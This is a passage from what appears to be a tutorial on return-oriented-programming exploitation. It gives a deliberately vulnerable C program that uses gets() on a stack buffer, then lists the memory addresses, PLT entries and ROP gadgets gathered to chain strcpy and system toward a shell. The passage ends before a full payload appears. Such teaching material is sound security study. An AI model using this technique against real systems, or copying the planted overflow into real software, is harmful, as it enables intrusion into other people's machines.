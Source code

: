 **EXAMPLE:**

```
#include <stdio.h>
#include <string.h>void unused(){
    char dummy1[10];
    char dummy2[10];
    strcpy(dummy1,dummy2);
}void show_date(){
    system("/bin/date");}void greet_me()
{
    char name[200];
    show_date();
    printf("Enter your name:");
    gets(name);
    printf("hi %s !\n",name);

  }
int main(int argc, char *argv[])
{
    greet_me();
    return 0;  
}
```

Steps to exploitation:

*   **Search for s,h letters in the non randomised memory space:**

![](https://miro.medium.com/max/1400/1*65gUYPtj8K2zCApvGwpxHA.png)

![](https://miro.medium.com/max/1400/1*y2YfP_ccewPe-PC1Teu9oA.png)

set **h_address** = 0x401034, **s_address** = 0x400476

*   **Search for memory location to write these letters as string:**

![](https://miro.medium.com/max/1246/1*1OX5K9Q6bXXZ29gtZJl4yw.png)

![](https://miro.medium.com/max/1256/1*WX-AkOJfSSQX-t5llLFG1A.png)

set **write_to** = 0x404038

*   **Search for strcpy() and system() plt entries:**

![](https://miro.medium.com/max/1400/1*NWkgY-mDzqAeHPzvaq3ITg.png)

set system = 0x401084, strcpy = 0x401074

*   **Search for gadgets:**

We are going to use at maximum two parameters (for the strcpy), so (remember from the C calling convention) we are going to use both $rdi and $rsi. Using, ropper to search for these gadgets we have the following results:

```
ret = 0x40101a #ret
pop_rdi_ret = 0x4012a3 #pop rdi; ret;
pop_rsi_pop_r15_ret=0x4012a1 #pop rsi; pop r15; ret;
```
